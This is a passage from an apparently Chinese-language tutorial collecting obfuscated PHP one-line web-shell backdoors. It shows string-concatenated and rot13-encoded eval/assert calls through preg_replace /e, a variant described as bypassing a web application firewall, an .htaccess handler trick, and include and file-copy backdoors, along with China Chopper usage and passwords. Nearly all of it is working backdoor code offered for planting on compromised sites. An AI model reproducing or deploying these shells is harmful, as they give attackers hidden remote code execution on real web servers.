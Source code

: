 ```php
<?php
$_="";
$_[+""]='';
$_="$_"."";
$_=($_[+""]|"").($_[+""]|"").($_[+""]^"");
?>
<?php ${'_'.$_}['_'](${'_'.$_}['__']);?>
```

在菜刀里写http://site/2.php?_=assert&__=eval($_POST['pass']) 密码是pass。
 如果你用菜刀的附加数据的话更隐蔽，或者用其它注射工具也可以，因为是post提交的。

**第三个**

```php
($b4dboy = $_POST['b4dboy']) && @preg_replace('/ad/e','@'.str_rot13('riny').'($b4dboy)', 'add');
```

str_rot13('riny')即编码后的eval，完全避开了关键字，又不失效果，让人吐血！

## 7.过狗免杀PHP一句话一枚

```php
<?php
preg_replace( "/[errorpage]/e", @str_rot13( '@nffreg($_CBFG[cntr]);' ), "saft" );
//@assert($_POST[page]);
//密码page
//http://www.mxcz.net/tools/rot13.aspx		rot13解密
?>
```

## 8..htaccess做PHP后门

**解析漏洞：**

这个其实在2007年的时候作者GaRY就爆出了，只是后边没人关注，这个利用关键点在于一句话：

```php
AddType application/x-httpd-php .htaccess
###### SHELL ###### 这里写上你的后门吧###### LLEHS ######
```

## 9.高级的PHP一句话木马后门

```
1、
$hh = "p"."r"."e"."g"."_"."r"."e"."p"."l"."a"."c"."e";
$hh("/[discuz]/e",$_POST['h'],"Access");
//菜刀一句话
2、
$filename=$_GET['xbid'];
include ($filename);
//危险的include函数，直接编译任何文件为php格式运行
3、
$reg="c"."o"."p"."y";
$reg($_FILES[MyFile][tmp_name],$_FILES[MyFile][name]);
//重命名任何文件
4、
$gzid = "p"."r"."e"."g"."_"."r"."e"."p"."l"."a"."c"."e";
$gzid("/[discuz]/e",$_POST['h'],"Access");
//菜刀一句话
5、include ($uid);
//危险的include函数，直接编译任何文件为php格式运行，POST www.xxx.com/index.php?uid=/home/www/bbs/image.gif
//gif插一句话
6、典型一句话
程序后门代码
```